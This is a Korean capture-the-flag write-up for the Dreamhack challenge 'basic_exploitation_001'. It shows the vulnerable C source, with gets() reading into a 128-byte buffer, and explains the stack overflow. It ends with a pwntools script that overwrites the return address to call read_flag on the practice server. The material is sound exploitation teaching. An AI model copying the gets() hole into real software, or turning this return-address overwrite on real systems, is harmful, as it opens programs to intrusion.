 ## 📍basic_exploitation_001

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.  
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.  
플래그의 형식은 DH{...} 입니다.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```


### 소스코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {
    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

![[{8C48088D-2EA8-4291-9662-01C8E1925881}.png]]

![[{6B5CA851-367C-469D-A02D-8A4961104865}.png]]

`read_flag` 함수의 시작 주소: `0x080485b9`

`gets` 함수에서 입력의 크기를 제한하고 있지 않기 때문에 버퍼 오버플로우 공격이 가능하다.
128바이트의 버퍼와 4바이트의 EBP(Extended Base Pointer)를 더미 데이터로 채우고, 그 이후 호출된 위치로 돌아갈 때 RET로 `read_flag` 함수의 시작 주소를 주면 `read_flag` 함수를 실행할 수 있다.


`$ python3 be1.py`

```python
from pwn import *

conn = remote('host3.dreamhack.games', 11943)

payload = b'A' * 0x84
payload += p32(0x080485b9)

conn.sendline(payload)

conn.interactive()
```

![[{6C625355-E5B7-438B-A7AB-7D20F3DB1A8E}.png]]

🚩